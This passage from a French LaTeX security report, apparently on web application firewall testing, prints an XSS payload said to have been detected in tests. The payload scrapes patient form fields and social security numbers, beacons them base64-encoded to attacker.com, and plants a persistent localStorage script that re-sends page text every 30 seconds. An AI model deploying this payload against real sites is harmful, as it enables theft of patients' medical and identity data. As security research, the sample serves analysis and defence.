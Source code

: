 Les attaquants developpent des payloads specifiquement concus pour l'exfiltration de donnees medicales :

\begin{lstlisting}[style=jsstyle,caption=Payload XSS specialise pour exfiltration donnees patients]
// Payload XSS specialise detecte dans les tests
<script>
// Extraction donnees patients sensibles
var medicalData = {
    patients: [],
    prescriptions: [],
    appointments: []
};

// Recherche de numeros de securite sociale
var ssnPattern = /\b\d{3}-\d{2}-\d{4}\b/g;
var ssnMatches = document.body.innerText.match(ssnPattern);
if(ssnMatches) {
    medicalData.ssn = ssnMatches;
}

// Extraction donnees formulaires patients
document.querySelectorAll('input[type="text"], textarea').forEach(function(field) {
    if(field.name && field.value) {
        var fieldData = {
            name: field.name,
            value: field.value,
            type: field.type
        };
        
        // Classification du type de donnees medicales
        if(field.name.includes('patient') || field.name.includes('name')) {
            medicalData.patients.push(fieldData);
        } else if(field.name.includes('prescription') || field.name.includes('medication')) {
            medicalData.prescriptions.push(fieldData);
        } else if(field.name.includes('appointment') || field.name.includes('date')) {
            medicalData.appointments.push(fieldData);
        }
    }
});

// Exfiltration via image beacon (technique courante)
var exfilData = btoa(JSON.stringify(medicalData));
var img = new Image();
img.src = 'http://attacker.com/collect.php?data=' + exfilData;

// Persistance via localStorage pour collecte continue
localStorage.setItem('medical_xss_payload', 
    'setInterval(function(){' +
    'var newData = document.body.innerText;' + 
    'if(newData.match(/patient|diagnosis|prescription/i)){' +
    'new Image().src="http://attacker.com/continuous.php?data="+btoa(newData.substr(0,1000));' +
    '}}, 30000);'
);

// Execution du payload persistant
eval(localStorage.getItem('medical_xss_payload'));
</script>
\end{lstlisting}

\subsubsection{Performance de ModSecurity WAF}

